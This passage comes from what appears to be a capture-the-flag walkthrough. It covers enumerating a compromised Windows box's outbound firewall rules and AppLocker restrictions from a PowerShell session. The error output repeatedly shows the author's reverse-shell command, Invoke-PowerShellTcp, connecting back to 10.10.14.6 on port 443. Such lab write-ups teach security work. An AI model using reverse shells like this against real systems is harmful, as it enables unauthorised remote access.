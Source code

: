 Checking the outbound firewall, it seems that only 80 and 443 are allowed out on TCP:

```

PS C:\> Get-NetFirewallRule -Direction Outbound -Enabled True
...[snip]...
Name                  : {3F5C5261-77AE-4F72-9C2A-4BFCE6CD8CBC}
DisplayName           : http_out
Description           :
DisplayGroup          :
Group                 :                             
Enabled               : True                   
Profile               : Any                        
Platform              : {}
Direction             : Outbound                   
Action                : Allow                       
EdgeTraversalPolicy   : Block            
LooseSourceMapping    : False
LocalOnlyMapping      : False             
Owner                 :                   
PrimaryStatus         : OK                
Status                : The rule was parsed successfully from the store.
                        (65536)
EnforcementStatus     : NotApplicable               
PolicyStoreSource     : PersistentStore     
PolicyStoreSourceType : Local
...[snip]...

```

That’ll be good to know going forward. Had I used some other port while troubleshooting my reverse shell, that would have been an extra real headache.

#### AppLocker

I noted some weirdness with PowerShell earlier. From this 32-bit process, I can only really run the 32-bit PowerShell, but the 64-bit version is blocked by AppLocker. There’s other blocks in place.

For example, I can’t write a `.bat`, `.exe`, or `.ps1` files:

```

PS C:\programdata> echo "test" > 0xdf.txt
PS C:\programdata> echo "test" > 0xdf.bat
Invoke-PowerShellTcp : Access to the path 'C:\programdata\0xdf.bat' is denied.
At line:127 char:1
+ Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 443
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
   tion
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
   n,Invoke-PowerShellTcp
 
PS C:\programdata> echo "test" > 0xdf.exe
Invoke-PowerShellTcp : Access to the path 'C:\programdata\0xdf.exe' is denied.
At line:127 char:1
+ Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 443
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
   tion
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
   n,Invoke-PowerShellTcp
PS C:\programdata> echo "test" > 0xdf.ps1
Invoke-PowerShellTcp : Access to the path 'C:\programdata\0xdf.ps1' is denied.
At line:127 char:1
+ Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 443
```